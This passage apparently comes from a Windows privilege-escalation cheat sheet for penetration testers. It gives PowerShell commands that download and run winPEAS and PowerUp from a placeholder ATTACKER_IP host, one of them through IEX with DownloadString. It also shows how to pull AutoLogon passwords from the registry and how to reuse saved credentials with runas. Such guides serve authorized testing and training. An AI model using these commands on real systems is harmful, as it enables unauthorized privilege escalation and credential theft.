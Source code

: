 ```powershell
# Download
certutil -urlcache -f http://ATTACKER_IP/winPEASx64.exe winPEAS.exe

# Run
.\winPEAS.exe

# Save output
.\winPEAS.exe > winpeas_output.txt

# Review focusing on RED/YELLOW findings
```

### PowerUp (PowerShell)

```powershell
# Download and import
IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/PowerUp.ps1')

# Run all checks
Invoke-AllChecks

# Specific checks
Get-ServiceUnquoted
Get-ModifiableServiceFile
Get-ModifiableService
Get-ServiceDetail
```
**Use automated tools to IDENTIFY vectors, then manually exploit**

---

## Registry-Based Privilege Escalation

### AutoLogon Credentials

```powershell
# Check for autologon credentials
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

# Look for:
# DefaultUserName
# DefaultPassword
```

### Saved Credentials

```powershell
# List saved credentials
cmdkey /list

# If credentials saved, use runas
runas /savecred /user:ADMIN cmd
```

---